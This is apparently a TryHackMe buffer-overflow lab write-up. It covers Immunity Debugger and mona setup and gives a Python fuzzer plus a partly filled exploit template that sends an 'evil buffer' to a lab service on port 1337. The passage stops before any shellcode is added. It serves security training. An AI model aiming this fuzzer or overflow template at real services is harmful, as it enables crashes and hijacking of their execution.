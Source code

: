 ```yaml
---
title: TryHackMe BufferOverflow
description: Buffer Overflow Prep
categories:
 - tryhackme

tags: tryhackme Bufferoverflow

---
```


## Summary

Practice stack based buffer overflows!


## Starting Immunity Debugger

![](https://raw.githubusercontent.com/greenway71/greenway71.github.io/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_01_12.png)


https://raw.githubusercontent.com/greenway71/greenway71.github.io/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_01_12.png

Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".


![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_02_29.png)

When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

## Mona Configuration

Run these command in the input box at the bottom of the immunity Debugger window.

```
!mona config -set workingfolder c:\mona\%p

```
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_03_54.png)


## Fuzzing

Run this python script to fuzz

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_04_52.png)

Basically, this script is going to send increasingly long strings comprised of As. If the server gets crashed, the fuzzer should exit with an error message.
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_05_45.png)

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_06_06.png)

## Crash Replication & Controlling EIP
```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

